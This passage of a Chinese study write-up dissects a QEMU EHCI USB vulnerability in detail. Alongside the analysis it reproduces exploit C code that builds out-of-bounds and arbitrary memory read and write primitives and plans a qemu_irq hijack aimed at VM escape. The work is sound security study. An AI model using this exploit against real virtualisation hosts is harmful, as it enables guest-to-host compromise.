            p->qtdaddr, p->pid, p->packet.iov.size, endp, p->packet.status,
            p->packet.actual_length);

    if (p->packet.actual_length > BUFF_SIZE) {
        fprintf(stderr, "ret from usb_handle_packet > BUFF_SIZE\n");
        return -1;
    }

    return 1;
}

// =============================================================================================

typedef struct EHCIqtd {
    uint32_t next;                    /* Standard next link pointer */
    uint32_t altnext;                 /* Standard next link pointer */
    uint32_t token;
    uint32_t bufptr[5];               /* Standard buffer pointer */
} EHCIqtd;

// =============================================================================================

typedef struct EHCIqh {
    uint32_t next;                    /* Standard next link pointer */

    /* endpoint characteristics */
    uint32_t epchar;

    /* endpoint capabilities */
    uint32_t epcap;

    uint32_t current_qtd;             /* Standard next link pointer */
    uint32_t next_qtd;                /* Standard next link pointer */
    uint32_t altnext_qtd;

    uint32_t token;                   /* Same as QTD token */
    uint32_t bufptr[5];               /* Standard buffer pointer */
} EHCIqh;

// =============================================================================================

#define QTD_TOKEN_TBYTES_MASK         0x7fff0000
#define QTD_TOKEN_TBYTES_SH           16
#define QTD_TOKEN_PID_MASK            0x00000300
#define QTD_TOKEN_PID_SH              8

// =============================================================================================

static int ehci_get_pid(EHCIqtd *qtd)
{
    switch (get_field(qtd->token, QTD_TOKEN_PID)) {
    case 0:
        return USB_TOKEN_OUT;
    case 1:
        return USB_TOKEN_IN;
    case 2:
        return USB_TOKEN_SETUP;
    default:
        fprintf(stderr, "bad token\n");
        return 0;
    }
}
```

在【1】处，要求`p->qtd.token |= QTD_TOKEN_ACTIVE`

在【2】处，要求`(p->qtd.token & 0x7fff0000) >> 16 <= 0x5000`

在【3】处，要求`(p->qtd.token & 0x00000300) >> 8 == USB_TOKEN_{OUT/IN/SETUP}`

进入【4】：`usb_handle_packet`​->`usb_process_one`，实现调用

‍

> ### C语言 特殊的宏定义
>
> 插一嘴无关的，这里又长见识了，C语言的宏还可以这么写：
>
> ```c
> #define QTD_TOKEN_PID_MASK            0x00000300
> #define QTD_TOKEN_PID_SH              8
>
> #define get_field(data, field)
>     (((data) & field##_MASK) >> field##_SH)
>
> get_field(qtd->token, QTD_TOKEN_PID);
> ```
>
> 这样`QTD_TOKEN_PID`​和`_MASK`​或者`_SH`就能够拼接起来了

‍

‍

## USB设备初始化

`EHCI(Enhanced Host Controller Interface)`​是`Intel`​主导的`USB2.0`的接口标准

查看`ehci-pci`设备的具体初始化过程

```c
static const TypeInfo ehci_pci_type_info = {
    .name = TYPE_PCI_EHCI,
    .parent = TYPE_PCI_DEVICE,
    .instance_size = sizeof(EHCIPCIState),
    .instance_init = usb_ehci_pci_init,
    .instance_finalize = usb_ehci_pci_finalize,
    .abstract = true,
    .class_init = ehci_class_init,
    .interfaces = (InterfaceInfo[]) {
        { INTERFACE_CONVENTIONAL_PCI_DEVICE },
        { },
    },
};
type_register_static(&ehci_pci_type_info);
```

由这个类型注册的过程中可以看出：

类型的初始化函数为`usb_class_init`​，类型的实例化函数是`ush_ehci_pci_init`

```c
static void ehci_class_init(ObjectClass *klass, void *data)
{
    DeviceClass *dc = DEVICE_CLASS(klass);
    PCIDeviceClass *k = PCI_DEVICE_CLASS(klass);

    k->realize = usb_ehci_pci_realize;
    k->exit = usb_ehci_pci_exit;
    k->class_id = PCI_CLASS_SERIAL_USB;
    k->config_write = usb_ehci_pci_write_config;
    dc->vmsd = &vmstate_ehci_pci;
    dc->props = ehci_pci_properties;
    dc->reset = usb_ehci_pci_reset;
}

static void usb_ehci_pci_init(Object *obj)
{
    DeviceClass *dc = OBJECT_GET_CLASS(DeviceClass, obj, TYPE_DEVICE);
    EHCIPCIState *i = PCI_EHCI(obj);
    EHCIState *s = &i->ehci;

    s->caps[0x09] = 0x68;        /* EECP */

    s->capsbase = 0x00;
    s->opregbase = 0x20;
    s->portscbase = 0x44;
    s->portnr = NB_PORTS;

    if (!dc->hotpluggable) {
        s->companion_enable = true;
    }

    usb_ehci_init(s, DEVICE(obj));
}

void usb_ehci_init(EHCIState *s, DeviceState *dev)
{
    /* 2.2 host controller interface version */
    s->caps[0x00] = (uint8_t)(s->opregbase - s->capsbase);
    s->caps[0x01] = 0x00;
    s->caps[0x02] = 0x00;
    s->caps[0x03] = 0x01;        /* HC version */
    s->caps[0x04] = s->portnr;   /* Number of downstream ports */
    s->caps[0x05] = 0x00;        /* No companion ports at present */
    s->caps[0x06] = 0x00;
    s->caps[0x07] = 0x00;
    s->caps[0x08] = 0x80;        /* We can cache whole frame, no 64-bit */
    s->caps[0x0a] = 0x00;
    s->caps[0x0b] = 0x00;

    QTAILQ_INIT(&s->aqueues);
    QTAILQ_INIT(&s->pqueues);
    usb_packet_init(&s->ipacket);

    memory_region_init(&s->mem, OBJECT(dev), "ehci", MMIO_SIZE);
    memory_region_init_io(&s->mem_caps, OBJECT(dev), &ehci_mmio_caps_ops, s,
                          "capabilities", CAPA_SIZE);
    memory_region_init_io(&s->mem_opreg, OBJECT(dev), &ehci_mmio_opreg_ops, s,
                          "operational", s->portscbase);
    memory_region_init_io(&s->mem_ports, OBJECT(dev), &ehci_mmio_port_ops, s,
                          "ports", 4 * s->portnr);

    memory_region_add_subregion(&s->mem, s->capsbase, &s->mem_caps);
    memory_region_add_subregion(&s->mem, s->opregbase, &s->mem_opreg);
    memory_region_add_subregion(&s->mem, s->opregbase + s->portscbase,
                                &s->mem_ports);
}
```

‍

> ### QOM
>
> 顺便学习一下`qemu`​中的`QOM`​（`QEMU Object Model`）：
>
> C语言并不是面向对象编程的语言，但是`qemu`​需要管理非常复杂的硬件设备模拟，因而专门设置了`QOM`​这样一套框架，借鉴自`GObject`，通过这种框架实现了类的继承
>
> e.g. 在`ehci_class_init`中：
>
> ```c
>     DeviceClass *dc = DEVICE_CLASS(klass);
>     PCIDeviceClass *k = PCI_DEVICE_CLASS(klass);
> ```
>
> 这是进行类型转化，在数值上 `kclass == dc == k`​，体现出一种`ObjectClass -> DeviceClass -> PCIDeviceClass`的父类->子类的关系
>
> ```c
>     k->realize = usb_ehci_pci_realize;
>     k->exit = usb_ehci_pci_exit;
>     k->class_id = PCI_CLASS_SERIAL_USB;
>     k->config_write = usb_ehci_pci_write_config;
>     dc->vmsd = &vmstate_ehci_pci;
>     dc->props = ehci_pci_properties;
>     dc->reset = usb_ehci_pci_reset;
> ```
>
> 这是进行赋值，但是不同的结构体之间赋值并不会相互覆盖，因为在子类的结构体定义时，会将父类囊括进去，形成嵌套关系
>
> 图示：
>
> ```c
> 内存低地址 ---------------------------------------------------------------------------------> 内存高地址
>
> +-----------------------+--------------------------------+----------------------------------------+
> | ObjectClass 的区域    | DeviceClass 新增的区域         | PCIDeviceClass 新增的区域              |
> | (name 等)             | (reset, props 等)              | (realize, exit, class_id 等)          |
> +-----------------------+--------------------------------+----------------------------------------+
> ^                       ^                                ^
> |                       |                                |
> klass (ObjectClass*)    dc (DeviceClass*)                k (PCIDeviceClass*)
> ```
>
> 代码示例：
>
> ```c
> // 模拟父类
> typedef struct DeviceClass {
>     int base_id;
>     int reset;      // dc->reset 会写这里
> } DeviceClass;
>
> // 模拟子类，嵌套父类
> typedef struct PCIDeviceClass {
>     DeviceClass parent; 
>     int realize;    // k->realize 会写这里
>     int class_id;   // k->class_id 会写这里
> } PCIDeviceClass;
> ```
>
> ‍

‍

`usb_ehci_pci_init`​函数初始化了`EHCIState`​结构体的部分字段，同时调用了`usb_ehci_init`​函数为`EHCIState`​的`mem_caps`​，`mem_opreg`​，`mem_ports`注册了回调函数，通过读写相应内存，可触发相关回调函数

回调函数如下：

```c
static const MemoryRegionOps ehci_mmio_caps_ops = {
    .read = ehci_caps_read,
    .write = ehci_caps_write,
    .valid.min_access_size = 1,
    .valid.max_access_size = 4,
    .impl.min_access_size = 1,
    .impl.max_access_size = 1,
    .endianness = DEVICE_LITTLE_ENDIAN,
};

static const MemoryRegionOps ehci_mmio_opreg_ops = {
    .read = ehci_opreg_read,
    .write = ehci_opreg_write,
    .valid.min_access_size = 4,
    .valid.max_access_size = 4,
    .endianness = DEVICE_LITTLE_ENDIAN,
};

static const MemoryRegionOps ehci_mmio_port_ops = {
    .read = ehci_port_read,
    .write = ehci_port_write,
    .valid.min_access_size = 4,
    .valid.max_access_size = 4,
    .endianness = DEVICE_LITTLE_ENDIAN,
};
```

每个回调函数里都有`.read`​、`.write`函数指针

博客里教我主要关注`opreg`​字段（不知道为什么），主要是`write`​回调函数，故此查看`ehci_opreg_write`函数：

```c
static void ehci_opreg_write(void *ptr, hwaddr addr,
                             uint64_t val, unsigned size)
{
    EHCIState *s = ptr;
    uint32_t *mmio = s->opreg + (addr >> 2);
    uint32_t old = *mmio;
    int i;

    trace_usb_ehci_opreg_write(addr + s->opregbase, addr2str(addr), val);

    switch (addr) {
    case USBCMD:
        if (val & USBCMD_HCRESET) {
            ehci_reset(s);
            val = s->usbcmd;
            break;
        }

        /* not supporting dynamic frame list size at the moment */
        if ((val & USBCMD_FLS) && !(s->usbcmd & USBCMD_FLS)) {
            fprintf(stderr, "attempt to set frame list size -- value %d\n",
                    (int)val & USBCMD_FLS);
            val &= ~USBCMD_FLS;
        }

        if (val & USBCMD_IAAD) {
            /*
             * Process IAAD immediately, otherwise the Linux IAAD watchdog may
             * trigger and re-use a qh without us seeing the unlink.
             */
            s->async_stepdown = 0;
            qemu_bh_schedule(s->async_bh);
            trace_usb_ehci_doorbell_ring();
        }

        if (((USBCMD_RUNSTOP | USBCMD_PSE | USBCMD_ASE) & val) !=
            ((USBCMD_RUNSTOP | USBCMD_PSE | USBCMD_ASE) & s->usbcmd)) {
            if (s->pstate == EST_INACTIVE) {
                SET_LAST_RUN_CLOCK(s);
            }
            s->usbcmd = val; /* Set usbcmd for ehci_update_halt() */
            ehci_update_halt(s);
            s->async_stepdown = 0;
            qemu_bh_schedule(s->async_bh);
        }
        break;

    case USBSTS:
        val &= USBSTS_RO_MASK;              // bits 6 through 31 are RO
        ehci_clear_usbsts(s, val);          // bits 0 through 5 are R/WC
        val = s->usbsts;
        ehci_update_irq(s);
        break;

    case USBINTR:
        val &= USBINTR_MASK;
        if (ehci_enabled(s) && (USBSTS_FLR & val)) {
            qemu_bh_schedule(s->async_bh);
        }
        break;

    case FRINDEX:
        val &= 0x00003fff; /* frindex is 14bits */
        s->usbsts_frindex = val;
        break;

    case CONFIGFLAG:
        val &= 0x1;
        if (val) {
            for(i = 0; i < NB_PORTS; i++)
                handle_port_owner_write(s, i, 0);
        }
        break;

    case PERIODICLISTBASE:
        if (ehci_periodic_enabled(s)) {
            fprintf(stderr,
              "ehci: PERIODIC list base register set while periodic schedule\n"
              "      is enabled and HC is enabled\n");
        }
        break;

    case ASYNCLISTADDR:
        if (ehci_async_enabled(s)) {
            fprintf(stderr,
              "ehci: ASYNC list address register set while async schedule\n"
              "      is enabled and HC is enabled\n");
        }
        break;
    }

    *mmio = val;
    trace_usb_ehci_opreg_change(addr + s->opregbase, addr2str(addr),
                                *mmio, old);
}
```

这个函数通过传入的`addr`​判断跳入到哪个`switch`​分支，然后为`EHCIState`​的`opreg`字段赋值

```bash
union
{
    uint32_t opreg[0x44 / sizeof(uint32_t)];
    struct
    {
        uint32_t usbcmd;
        uint32_t usbsts;
        uint32_t usbintr;
        uint32_t frindex;
        uint32_t ctrldssegment;
        uint32_t periodiclistbase;
        uint32_t asynclistaddr;
        uint32_t notused[9];
        uint32_t configflag;
    };
};
```

‍

‍

# 漏洞利用

## 原语构造

### 越界读

回顾很早之前的溢出：

**do_token_setup**

```c
static void do_token_setup(USBDevice *s, USBPacket *p)
{
    usb_packet_copy(p, s->setup_buf, p->iov.size);  //调用usb_packet_copy
    s->setup_index = 0;
    p->actual_length = 0;
    s->setup_len   = (s->setup_buf[7] << 8) | s->setup_buf[6];  //长度是由这俩参数设置的
	
	【……】

    if (s->setup_buf[0] & USB_DIR_IN) {
        usb_device_handle_control(s, p, request, value, index,
                                  s->setup_len, s->data_buf);

	【……】

}
```

‍

**ehci_get_pid**

```c
#define QTD_TOKEN_PID_MASK            0x00000300
#define QTD_TOKEN_PID_SH              8

#define USB_TOKEN_SETUP 0x2d
#define USB_TOKEN_IN    0x69 /* device -> host */
#define USB_TOKEN_OUT   0xe1 /* host -> device */

static int ehci_get_pid(EHCIqtd *qtd)
{
    switch (get_field(qtd->token, QTD_TOKEN_PID)) {
    case 0:
        return USB_TOKEN_OUT;
    case 1:
        return USB_TOKEN_IN;     //do_token_in
    case 2:
        return USB_TOKEN_SETUP;  //进do_token_setup设置 s->setup_len
    default:
        fprintf(stderr, "bad token\n");
        return 0;
    }
}
// =============================================================================================
#define get_field(data, field) \
    (((data) & field##_MASK) >> field##_SH)
```

`ehci_get_pid`​这个函数由`ehci_execute`​调用，用于获取`p->pid`​，而`pid`​决定了是`do_token_setup`​还是`in`​/`out`

‍

根据`get_field`​，`qtd->token`为：

1. `(2 << 8)`​:进入`do_token_setup`分支
2. `(1 << 8)`​:进入`do_token_in`分支
3. `0`​:进入`do_token_out`分支

以`do_token_in`为例

**do_token_in**

```c
static void do_token_in(USBDevice *s, USBPacket *p)
{
    int request, value, index;

    assert(p->ep->nr == 0);

    request = (s->setup_buf[0] << 8) | s->setup_buf[1];
    value   = (s->setup_buf[3] << 8) | s->setup_buf[2];
    index   = (s->setup_buf[5] << 8) | s->setup_buf[4];

    switch(s->setup_state) {
    case SETUP_STATE_ACK:
        if (!(s->setup_buf[0] & USB_DIR_IN)) {
            usb_device_handle_control(s, p, request, value, index,
                                      s->setup_len, s->data_buf);
            if (p->status == USB_RET_ASYNC) {
                return;
            }
            s->setup_state = SETUP_STATE_IDLE;
            p->actual_length = 0;
        }
        break;

    case SETUP_STATE_DATA:
        if (s->setup_buf[0] & USB_DIR_IN) {									【1】
            int len = s->setup_len - s->setup_index;
            if (len > p->iov.size) {										【2】
                len = p->iov.size;
            }
            usb_packet_copy(p, s->data_buf + s->setup_index, len);			【3】
            s->setup_index += len;
            if (s->setup_index >= s->setup_len) {
                s->setup_state = SETUP_STATE_ACK;
            }
            return;
        }
        s->setup_state = SETUP_STATE_IDLE;
        p->status = USB_RET_STALL;
        break;

    default:
        p->status = USB_RET_STALL;
    }
}
```

有两处约束条件：【1】【2】，最终目的是调用【3】造成溢出

需要满足条件：

1. `s->setup_buf[0] == USB_DIR_IN == 0x80`
2. `p->iov.size`足够大

### 越界写

先进入`do_token_setup`​设置长度，再设置`qtd->token`​为`0<<8`​，进入`do_token_out`分支

设置`setup_buf[0]`​为`USB_DIR_OUT`​，就能够达到将`qtd->bufptr[0]`​复制到`s->data_buf`进行覆写的目的

‍

### 任意读原语

步骤如下：

1. 通过`do_token_setup`​函数，利用`setup_buf[6,7]`​设置越界长度`setup_len`​为`0x1010`
2. 进行越界写，将`setup_len`​设置成`0x1010`​，`setup_index`​设置成`0xfffffff8-0x1010`​，此时`do_token_out`​中`usb_packet_copy`​后面的`s->setup_index += len`​操作后，`s->setup_index`​会被设置成`0xfffffff8`
3. 再次进行越界写，此时从`data_buf-8`​处写，覆盖了`setup_buf`​字段，将`setup_buf[0]`​设置成`USB_DIR_IN`​，并将`setup_index`​覆盖成`target - 0x1018`

   经过`setup_index += len`​的操作之后，变成`target`

   此时再次进入`case SETUP_STATE_DATA`​时，`len = s->setup_len - s->setup_index`​操作，得到的值为：`(0x1010-(-8) == 0x1018)`​，`len`​变成了`0x1018`
4. 越界读，能够读取目标地址的内容

这里的核心难点是把`setup_buf[0]`​设置成`USB_DIR_IN`

‍

### 任意写原语

步骤如下：

1. 首先设置越界长度为`0x1010`
2. 越界写，将`setup_index`​设置成`target_offset-0x1010`​，`usb_packet_copy`​后面的`s->setup_index += len`​操作后，`s->setup_index`​会被设置成`target`

‍

### 任意命令执行

上面已经实现了任意内存读写，但是离实现任意命令执行还是有距离，中间差一个控制流的劫持，在这里选用的是`qemu_irq`

**qemu_set_irq & IRQState**

```c
void qemu_set_irq(qemu_irq irq, int level)
{
    if (!irq)
        return;

    irq->handler(irq->opaque, irq->n, level);
}

// =============================================================================================

struct IRQState {
    Object parent_obj;

    qemu_irq_handler handler;
    void *opaque;
    int n;
};
typedef struct IRQState *qemu_irq;
```

这里`irq->handler`​是一个函数，并且结构体中的`irq->opaque`还是参数，如果能够控制/伪造这个结构体，就能够实现执行流的控制

‍

‍

## exp拆解

即便前面做了很多铺垫，但是想看懂exp还是有些费力，所以这里把exp详细拆解一下

### 全局变量 & 结构体定义

```c
#define PORTSC_PRESET (1 << 8) // Port Reset
#define PORTSC_PED (1 << 2)    // Port Enable/Disable
#define USBCMD_RUNSTOP (1 << 0)
#define USBCMD_PSE (1 << 4)
#define USB_DIR_OUT 0
#define USB_DIR_IN 0x80
#define QTD_TOKEN_ACTIVE (1 << 7)
#define USB_TOKEN_SETUP 2
#define USB_TOKEN_IN 1  /* device -> host */
#define USB_TOKEN_OUT 0 /* host -> device */
#define QTD_TOKEN_TBYTES_SH 16
#define QTD_TOKEN_PID_SH 8

struct EHCIqh *qh;
struct EHCIqtd *qtd;
struct ohci_td *td;

unsigned char *mmio_mem;
unsigned char *data_buf;
unsigned char *data_buf_oob;
char *dmabuf;
char *setup_buf;
uint32_t *entry;
uint64_t dev_addr;
uint64_t data_buf_addr;
uint64_t USBPort_addr;

typedef struct USBDevice USBDevice;
typedef struct USBEndpoint USBEndpoint;
struct USBEndpoint
{
    uint8_t nr;
    uint8_t pid;
    uint8_t type;
    uint8_t ifnum;
    int max_packet_size;
    int max_streams;
    bool pipeline;
    bool halted;
    USBDevice *dev;
    USBEndpoint *fd;
    USBEndpoint *bk;
};

struct USBDevice
{
    int32_t remote_wakeup;
    int32_t setup_state;
    int32_t setup_len;
    int32_t setup_index;

    USBEndpoint ep_ctl;
    USBEndpoint ep_in[15];
    USBEndpoint ep_out[15];
};

typedef struct EHCIqh
{
    uint32_t next; /* Standard next link pointer */

    /* endpoint characteristics */
    uint32_t epchar;

    /* endpoint capabilities */
    uint32_t epcap;

    uint32_t current_qtd; /* Standard next link pointer */
    uint32_t next_qtd;    /* Standard next link pointer */
    uint32_t altnext_qtd;

    uint32_t token;     /* Same as QTD token */
    uint32_t bufptr[5]; /* Standard buffer pointer */

} EHCIqh;
typedef struct EHCIqtd
{
    uint32_t next;    /* Standard next link pointer */
    uint32_t altnext; /* Standard next link pointer */
    uint32_t token;

    uint32_t bufptr[5]; /* Standard buffer pointer */

} EHCIqtd;
```

### 板子

```c
// virtual addr -> physic addr
uint64_t vir2phy(void *p)
{
    uint64_t vir = (uint64_t)p;
    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd == -1)
    {
        fail("open");
    }
    uint64_t offset = (vir / 0x1000) * 8;
    lseek(fd, offset, SEEK_SET);

    uint64_t phy;
    if (read(fd, &phy, 8) != 8)
    {
        fail("read");
    }

    phy = (phy & (1 << 54) - 1) * 0x1000 + (vir & 0xfff);
    return phy;
}

void mmio_write(uint32_t addr, uint32_t value)
{
    *((uint32_t *)(mmio_mem + addr)) = value;
}

uint64_t mmio_read(uint32_t addr)
{
    return *((uint64_t *)(mmio_mem + addr));
}

```

### init函数

对一些基础条件进行初始化

```python
void init()
{
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:1d.7/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
    {
        fail("mmio_fd");
    }
    // mem for usb device
    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
    {
        fail("mmio_mem");
    }
    // mem for dmabuf
    int idx = 0;
    do
    {
        idx++;
        dmabuf = mmap(0, 0x3000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
        if (dmabuf == MAP_FAILED)
        {
            fail("dmabuf\n");
        }

        *(char *)dmabuf = 'a';
        *(char *)(dmabuf + 0x1000) = 'b';
        *(char *)(dmabuf + 0x2000) = 'c';

        entry = dmabuf + 4;
        qh = dmabuf + 0x100;
        qtd = dmabuf + 0x200;
        setup_buf = dmabuf + 0x300;
        data_buf = dmabuf + 0x1000;
        data_buf_oob = dmabuf + 0x2000;

        if (vir2phy(data_buf) + 0x1000 == vir2phy(data_buf_oob))
        {
            printf("dmabuf: 0x%lx\n", (uint64_t)dmabuf);
            printf("phy_dmabuf: 0x%lx\n", vir2phy(dmabuf));
            printf("data_buf: 0x%lx\n", (uint64_t)data_buf);
            printf("phy_data_buf: 0x%lx\n", vir2phy(data_buf));
            printf("data_buf_oob: 0x%lx\n", (uint64_t)data_buf_oob);
            printf("phy_data_buf_oob: 0x%lx\n", vir2phy(data_buf_oob));
            break;
        }
        else
        {
            munmap(dmabuf, 0x3000);
            // printf("not continue\n");
            continue;
        }
    } while (idx < 1000);

    if (idx == 0x1000)
    {
        fail("Unable to find a contiguous physical address");
    }
    printf("init Success!\n");
}
```

‍

### reset_enable_port & set_EHCIState

```c
void reset_enable_port()
{
    // 对usb设备0x64偏移处进行写入操作，0x64 的偏移对应到 portsc
    // 对该字段写操作会调用到ehci_port_write
    // 实现reset复位，重新走一遍流程
    mmio_write(0x64, PORTSC_PRESET);
    mmio_write(0x64, PORTSC_PED);
}

void set_EHCIState() // 触发一次 usb_process_one
{
    mmio_write(0x2c, 0);                           // frindex
    mmio_write(0x34, vir2phy(dmabuf));             // periodiclistbase
    mmio_write(0x20, USBCMD_RUNSTOP | USBCMD_PSE); // usbcmd
    sleep(1);
}

void set_qh()
{
    qh->epchar = 0x00;
    qh->token = QTD_TOKEN_ACTIVE;				// 进入 FETCHQTD 分支
    qh->current_qtd = vir2phy(qtd);				// 伪造的qtd
}
```

mmio_read、mmio_write对应的就是前文提到的opreg的存储区域，在EHCIState结构体中

reset_enable_port目的是为了让USB设备reset之后“重新挂载一遍”

set_EHCIState目的是为了触发usb_process_one，为后续调用do_token_setup/in/out铺垫

set_qh 是为了能够进入 FETCHQTD 分支，同时对qtd进行伪造

‍

### init_state

```c
void init_state()
{
    // prepare
    reset_enable_port();
    set_qh();
    // set overflow length
    setup_buf[6] = 0xff;
    setup_buf[7] = 0x0;

    // do_token_setup 设置 s->setup_len 的长度为越界长度
    // 进入 do_token_setup 需要设置 qtd->token 值
    qtd->token = QTD_TOKEN_ACTIVE | USB_TOKEN_SETUP << QTD_TOKEN_PID_SH | 8 << QTD_TOKEN_TBYTES_SH;
    qtd->bufptr[0] = vir2phy(setup_buf);

    *entry = vir2phy(qh) + 0x2;

    set_EHCIState();  // 触发
}
```

qtd、qh是dma内存（需要通过物理内存访问）

‍

### set_length

```c
void set_length(uint16_t len, uint8_t option)
{
    reset_enable_port();
    set_qh();

    setup_buf[0] = option;
    setup_buf[6] = len & 0xff;
    setup_buf[7] = (len >> 8) & 0xff;

    qtd->token = QTD_TOKEN_ACTIVE | USB_TOKEN_SETUP << QTD_TOKEN_PID_SH | 8 << QTD_TOKEN_TBYTES_SH;
    qtd->bufptr[0] = vir2phy(setup_buf);
    set_EHCIState();
}
```

通过setup_buf的非溢出手段来设置setup_len的值

‍

### do_copy_read

越界读

```c
void do_copy_read()
{
    reset_enable_port();
    set_qh();
    // set token in order to step in do_token_in
    // set p->iov.size
    qtd->token = QTD_TOKEN_ACTIVE | USB_TOKEN_IN << QTD_TOKEN_PID_SH | 0x1e00 << QTD_TOKEN_TBYTES_SH;
    qtd->bufptr[0] = vir2phy(data_buf);
    qtd->bufptr[1] = vir2phy(data_buf_oob);

    set_EHCIState();
}
```

将(USBDevice)->data_buf[]开始的0x2000字节复制到bufptr[0]和bufptr[1]中

(USBDevice)->data_buf[]大小为4096即0x1000字节，所以有0x1000的溢出，会将后面的remote_wakeup、setup_state、setup_len、setup_index、(struct USBEndpoint ep_ctl)一并放入到data_buf_oob中，所以可以通过读取data_buf_oob来实现越界读，其中最重要的是ep_ctl，这个结构体里包含USBDevice的指针

‍

### do_copy_write

越界写

```c
void do_copy_write(int offset, unsigned int setup_len, unsigned int setup_index)
{
    reset_enable_port();
    set_qh();

    *(unsigned long *)(data_buf_oob + offset) = 0x0000000200000002;
    *(unsigned int *)(data_buf_oob + 0x8 + offset) = setup_len;
    *(unsigned int *)(data_buf_oob + 0xc + offset) = setup_index;

    qtd->token = QTD_TOKEN_ACTIVE | USB_TOKEN_OUT << QTD_TOKEN_PID_SH | 0x1e00 << QTD_TOKEN_TBYTES_SH;
    qtd->bufptr[0] = vir2phy(data_buf);
    qtd->bufptr[1] = vir2phy(data_buf_oob);

    set_EHCIState();
}
```

与越界读恰好相反的，是将数据从我们能够掌握的dmabuf中的data_buf和data_buf_oob写回(USBDevice)->data_buf中，造成溢出，覆盖关键变量（setup_len和setup_index）

实现的效果是设置setup_len和setup_index的值

这里的offset是干嘛用的？后面在arb_read时会解释

‍

### setup_state_data

```c
void setup_state_data()
{
    set_length(0x500, USB_DIR_OUT);
}
```

setup_state_data只是对set_length的一次封装，0x500可以是任意<=0x1000的值，目的是为了第一次进入do_token_setup时不会触发溢出，所以do_token_setup会把s->setup_state设置成SETUP_STATE_DATA，这样才能确保do_token_in/out时会调用usb_packet_copy函数触发溢出漏洞

‍

### arb_read

解释时USBDevice结构体的相关成员均省略前面的`'s->'`

```c
unsigned long arb_read(uint64_t target_addr)
{
    setup_state_data();
    set_length(0x1010, USB_DIR_OUT);
    do_copy_write(0, 0x1010, 0xfffffff8 - 0x1010); // over write

    *(unsigned long *)(data_buf) = 0x2000000000000080; // set setup_buf[0] => USB_DIR_IN
    unsigned int target_offset = target_addr - data_buf_addr;

    do_copy_write(0x8, 0xffff, target_offset - 0x1018); // offset = 8
    do_copy_read();                                     // over read
    return *(unsigned long *)(data_buf);
}
```

这时候一定要结合源码来看：

```c
    case SETUP_STATE_DATA:
        if (s->setup_buf[0] & USB_DIR_IN) {
            int len = s->setup_len - s->setup_index;					【1】
            if (len > p->iov.size) {
                len = p->iov.size;
            }
            usb_packet_copy(p, s->data_buf + s->setup_index, len);		【2】
            s->setup_index += len;										【3】
            if (s->setup_index >= s->setup_len) {
                s->setup_state = SETUP_STATE_ACK;
            }
            return;
        }
        s->setup_state = SETUP_STATE_IDLE;
        p->status = USB_RET_STALL;
        break;
```

结合源码，我们将关键点分为3个:

1. 第一个点【1】，设置len
2. 第二个点【2】，进行copy，其中的一个地址为data_buf + setup_index
3. 第三个点【3】，覆盖之后setup_index会加上len

经过set_length(0x1010, USB_DIR_OUT);之后，setup_len = 0x1010

**第一次越界写 —— do_copy_write(0, 0x1010, 0xfffffff8 - 0x1010);**

在【1】处：此时setup_index还为0，setup_len=0x1010，len=0x1010

在【2】处：地址data_buf + 0，就是data_buf

在【3】处：

3.1：被覆盖后setup_len = 0x1010，setup_index = 0xfffffff8 - 0x1010

3.2：setup_index = setup_index+len = (0xfffffff8-0x1010) + 0x1010 = 0xfffffff8

最终效果：

|setup_len|setup_index|
| -----------| -------------|
|0x1010|0xfffffff8|

‍

**第二次越界写 —— do_copy_write(0x8, 0xffff, target_offset - 0x1018);**

在【1】处：len = setup_len-setup_index = 0x1010-0xfffffff8 = 0x1018

在【2】处：地址为data_buf + 0xfffffff8，即data_buf - 8，即，写时会向前覆盖到data_buf[]前8个字节的setup_buf，进而控制USB_DIR_IN/OUT，实现写向读的切换

在【3】处：

3.1：被覆盖后setup_len=0xffff，setup_index=target_offset - 0x1018

3.2：setup_index = setup_index+len = (target_offset-0x1018)+0x1018 = target_offset

最终效果：

|setup_len|setup_index|
| -----------| ---------------|
|0xffff|target_offset|

‍

**第三次越界读 —— do_copy_read();**

在【1】处：len = setup_len-setup_index = 0xffff-target_offset，这个值大概率小于0，但是`usb_packet_copy(USBPacket *p, void *ptr, size_t bytes)`中bytes的类型为size_t，所以反而会导致更大

在【2】处：地址为data_buf+target_offset = target_addr

在【3】处：无所谓了~

‍

也即在第三次越界读时，将目标地址的内容读取到了我们可以访问的内存中，然后再将其从内存中读取出来，即可实现任意地址读取

不得不说，这里的利用十分精妙

‍

‍

### arb_write

```c
void arb_write(uint64_t target_addr, uint64_t payload)
{
    setup_state_data();
    set_length(0x1010, USB_DIR_OUT);

    unsigned long offset = target_addr - data_buf_addr;
    do_copy_write(0, offset + 0x8, offset - 0x1010);

    *(unsigned long *)(data_buf) = payload;
    do_copy_write(0, 0xffff, 0);
}
```

这里不涉及USB_DIR_IN/OUT的转换，简单许多

**第一次越界写**

在【1】处：len = setup_len-setup_index = 0x1010-0 = 0x1010

在【2】处：地址data_buf+setup_index = data_buf

在【3】处：

3.1 被覆盖后setup_len=offset+8，setup_index=offset-0x1010

3.2 setup_index = setup_index+len = offset

**第二次越界写**

在【1】处：len = setup_len-setup_index = (offset+8)-offset = 8

在【2】处：地址data_buf+offset = target

在【3】处：无所谓了~

实现效果：将我们预设的8字节payload写入到target地址中去

‍

### main

```c
int main()
{
    init();
    iopl(3);
    outw(0, 0xc080);
    outw(0, 0xc0a0);
    outw(0, 0xc0c0);
    sleep(3);

    init_state();
    set_length(0x200, USB_DIR_IN);
    set_length(0x2000, USB_DIR_IN);
    do_copy_read();

    struct USBDevice *usb_device_tmp = data_buf_oob + 4;
    struct USBDevice usb_device;
    memcpy(&usb_device, usb_device_tmp, sizeof(USBDevice));

    for (int i = 0; i < 0x20; ++i)
    {
        printf("data_buf[%d]: %lx\n", i, *(uint64_t *)(data_buf + i * 8));
    }

    printf("--------------------------------------------\n");

    for (int i = 0; i < 0x20; ++i)
    {
        printf("data_buf_oob[%d]: %lx\n", i, *(uint64_t *)(data_buf_oob + i * 8));
    }

    dev_addr = usb_device.ep_ctl.dev;
    data_buf_addr = dev_addr + 0xdc;
    USBPort_addr = dev_addr + 0x78;
    printf("USBDevice dev_addr: 0x%llx\n", dev_addr);
    printf("USBDevice->data_buf: 0x%llx\n", data_buf_addr);
    printf("USBPort_addr: 0x%llx\n", USBPort_addr);

